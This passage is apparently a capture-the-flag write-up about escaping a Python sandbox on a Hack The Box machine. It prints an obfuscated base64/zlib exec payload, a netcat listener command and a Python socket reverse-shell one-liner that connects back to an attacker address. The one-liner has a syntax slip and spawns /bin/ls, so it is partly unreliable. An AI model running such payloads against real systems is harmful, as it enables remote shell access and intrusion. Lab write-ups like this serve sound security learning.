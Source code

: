    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjd8KwiAUxl/lIIEKKcUuovUoY4iawiGdsaNQRO+e21V3H7/vX3gFLxhjmJ9lrVDoVkjTm2rIgj8wJVBXOIhEJYKqoHA8D8NFctk7xw83xjVMFRcyho+Th1hW8IALCKmN8clSd7pylsIuqLmdhs6FBIzAva18q/huLzb3HMzTad4Wcrm3FPT/zVf+AFbHOvo="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 274
    Check if the Python http service is running at http://167.172.53.64:30820


**NO!** As we could have expected the Python server is not running on the port.

The problem is that the second command's (`python -m ...`) execution is still dependent on the app. Upon the killing we are not able to execute it.

This suggests us to leave the attempt of executing a bind shell on the target machine.

## Reverse shell

An other tactic is to use a **reverse shell**. We make our attacking machine listening on a port and force the victim to connect to it. Upon connection the victim launches an instance of its shell (`/bin/bash`) and share it on our listening port.



We test this approach on our local app that is running in a container with address `173.17.0.3`. We have hardcoded this address inside the docker-compose configuration file.

We start a listening service on port `1234` on our localhost using netcat: `nc -lp 1234`.

We want to connect to such a port from the container and send the shell.

Netcat (or telnet) is not installed on the HTB machine and we are not able to find any package manager that can be used to install such programs. This is why to target also our local app we use the Python `socket` library.

The following statement, that we want our local app to execute, sends a shell of the victim to our listening machine.

In the network we created for this environment our hosting machine has an address of `173.17.0.1`, as shown by the following interface information:

<img src="https://i.ibb.co/VYNH4gM/ifconfig.png" alt="ifconfig" border="0">


```python
pl_send_bash = """import socket as k,os as o;pty as t;s=k.socket(2,1);s.connect(("173.17.0.1",3333));o.dup2(s.fileno(),0); o.dup2(s.fileno(),1);t.spawn("/bin/ls")"""
```


```python
len(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_send_bash)))
```

The problem with such a statement is its length. Too long for reaching the `exec` we desire. Before trying to find a way (if possible at all) to reduce the length we have to check that we are heading in the right way.

Using the socket library we send from the app a message to our listening service. If we recieve it then reducing the length of the previous payload would make sense. But if such a message is not recieved then it is an indication that is better to explore other ways for the attack.
